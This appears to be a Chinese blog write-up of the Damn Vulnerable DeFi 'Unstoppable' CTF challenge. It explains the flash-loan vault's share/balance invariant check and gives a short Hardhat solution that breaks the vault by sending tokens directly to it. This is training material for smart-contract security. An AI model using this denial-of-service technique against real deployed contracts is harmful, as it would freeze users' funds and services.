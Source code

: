 ```yaml
---
title: damn vulnerable defi unstoppable(1)
date: 2023-02-16 19:02:31
tags:
  - solidity
  - damnvulnerabledefi
  - defi
  - CTFs
categories:
  - solidity
thumbnail: /images/thumbs/unstoppable.png
---
```


![alt ""](/images/thumbs/unstoppable.png)

## Damn vulnerable defi CTFs 挑战 1.Unstoppable 详解

Damn vulnerable defi 是学习以太坊智能合约攻防的网站。具有闪贷、价格预言机、NFT、DEX、lending pool,智能合约钱包、和时间锁等特性。

### 如何开始

- 1. git clone [github repo](https://github.com/tinchoabbate/damn-vulnerable-defi/tree/v3.0.0)
- 2. 通过 yarn 安装
- 3. 在\*.challenge.js 中填写编码
- 4. 通过 hardhat 工具运行 test 脚本文件

### 挑战内容

需要通过交互使得闪贷合约停止工作

### Unstoppable 内容

Unstoppable 合约中主要有 3 部分内容组成:

- ERC20 token 合约 (DamnValuableToken.sol)
- Unstoppable 主合约(UnstoppableVault.Sol)
- 调用闪贷合约的调用合约(ReceiverUnstoppable.sol)

这里还需要用到 hardhat 的 test 合约功能,如果对这部分内容不是很了解的话可以先阅读下 hardhat 的相关文档[Testing contracts](https://hardhat.org/hardhat-runner/docs/guides/test-contracts)。
相关的命令行:

```shell
npx hardhat test TEST_FILE_ROUTER
```

这里和运行部署脚本有区别的地方是没有 run 命令需要注意下。

### 合约流程

合约的测试脚本中(unstoppable.challenge.js)包含了 3 个用户分别是部署者、发起攻击的用户、普通的调用闪贷的用户。同时也包含了 3 个合约分别是 token 合约、闪贷合约、普通调用闪贷业务的用户合约。

```javascript
unstoppable.challenge.js

//部署者、发起攻击的用户、普通的调用闪贷的用户
let deployer, player, someUser;
//token 合约、闪贷合约、普通调用闪贷业务的用户合约
let token, vault, receiverContract;
...
```

当 token 合约和闪贷合约部署完成之后，像闪贷合约的部署地址支付了固定数量的 token。

```javascript
await token.approve(vault.address, TOKENS_IN_VAULT);
await vault.deposit(TOKENS_IN_VAULT, deployer.address);
```

最后部署普通用户的合约，通过用户合约像借贷合约发起了一笔借贷的请求。用户部署的合约收到请求之后调用了借贷合约的 flashLoan 方法，在借贷合约中 flashLoan 会回调用户合约中的 onFlashLoan 方法。在回调完成之后需要像用户收回之前发出去的借贷 token 并按照条件收取一定的费用 fee。

### 代码问题点

```javascript
ReceiverUnstoppable.sol
/**
  * @inheritdoc IERC3156FlashLender
  */
function flashLoan(
    IERC3156FlashBorrower receiver,
    address _token,
    uint256 amount,
    bytes calldata data
) external returns (bool) {
    if (amount == 0) revert InvalidAmount(0); // fail early
    if (address(asset) != _token) revert UnsupportedCurrency(); // enforce ERC3156 requirement
    uint256 balanceBefore = totalAssets();
    //问题代码的位置.
    if (convertToShares(totalSupply) != balanceBefore) revert InvalidBalance(); // enforce ERC4626 requirement
    uint256 fee = flashFee(_token, amount);
    // transfer tokens out + execute callback on receiver
    ERC20(_token).safeTransfer(address(receiver), amount);
    // callback must return magic value, otherwise assume it failed
    if (receiver.onFlashLoan(msg.sender, address(asset), amount, fee, data) != keccak256("IERC3156FlashBorrower.onFlashLoan"))
        revert CallbackFailed();
    // pull amount + fee from receiver, then pay the fee to the recipient
    ERC20(_token).safeTransferFrom(address(receiver), address(this), amount + fee);
    ERC20(_token).safeTransfer(feeRecipient, fee);
    return true;
}
```

balanceBefore 在代码中表示部署的合约地址中所包含的 token 数量，而 totalSupply 只有在 mint 的时候才会累加，具体的代码在：

```javascript
ERC20.sol
function _mint(address to, uint256 amount) internal virtual {
    totalSupply += amount;

    // Cannot overflow because the sum of all user
    // balances can't exceed the max uint256 value.
    unchecked {
        balanceOf[to] += amount;
    }

    emit Transfer(address(0), to, amount);
}
```

所以只需要让这 2 个值不相等的话请求就会 revert,通过分析我们利用 player 像合约直接发送一笔 token

### 解决方式

```javascript
it("Execution", async function () {
  /** CODE YOUR SOLUTION HERE */
  await token
    .connect(player)
    .approve(vault.address, INITIAL_PLAYER_TOKEN_BALANCE);
  await token
    .connect(player)
    .transfer(vault.address, INITIAL_PLAYER_TOKEN_BALANCE);
});
```
